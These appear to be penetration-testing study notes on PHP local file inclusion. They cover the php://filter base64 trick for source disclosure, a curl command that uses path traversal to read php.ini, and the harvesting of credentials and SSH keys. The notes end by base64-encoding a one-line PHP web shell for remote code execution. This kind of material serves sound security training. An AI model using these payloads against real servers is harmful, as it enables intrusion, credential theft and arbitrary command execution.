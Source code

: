The filter that is most useful for LFI attacks is the `convert.base64-encode` filter.

### Fuzzing for PHP Files
first we find PHP pages with something like ffuf or gobuster. When scanning, we're looking for any files that end with php because we're looking for Local File Inclusion. It doesn't matter if we can't access it from the outside, the point is to exploit the existence of the file.

#### Standard PHP inclusion
If we try to include the PHP file directly using LFI, we don't get anything because the PHP file gets executed and rendered only if there is HTML to be rendered. 

Usually, we're most interested in reading the actual contents of the PHP file not executing it. In this case, the base64 php filter is very helpful since we can encode the php file and then read it.

#### Source Code Disclosure

Once we have a list of potential PHP files we want to read we disclose their sources with the base64 PHP filter. Example:
```url
php://filter/read=convert.base64-encode/resource=config
```


## Remote Code Execution

### PHP Wrappers
One easy way to gain control over the back-end server is to use the LFI to get user credentials and SSH keys and then use those to login to the back-end. These are the no-brainers.

### Data Wrapper

The <a href="https://www.php.net/manual/en/wrappers.data.php">data</a> wrapper can be used to include external data, including PHP code but the data warpper is only available if the `allow_url_include` setting is enabled in the PHP configurations.

Check the PHP configuration file. It's at `/etc/php/X.Y/apache2/php.ini` for Apache or `/etc/php/X.Y/fpm/php.ini` for Nginx, where X.Y is your install PHP version. These files must be encoded using base64 to avoid breaking.

Pull the File:
```shell-session
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

Then check the variable state:
```shell-session
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```

Many web applications require this 'On' to function properly. So it's not crazy to see it turned on. We must know how to check. Now we base encode a basic shell:
```shell-session
$ echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```
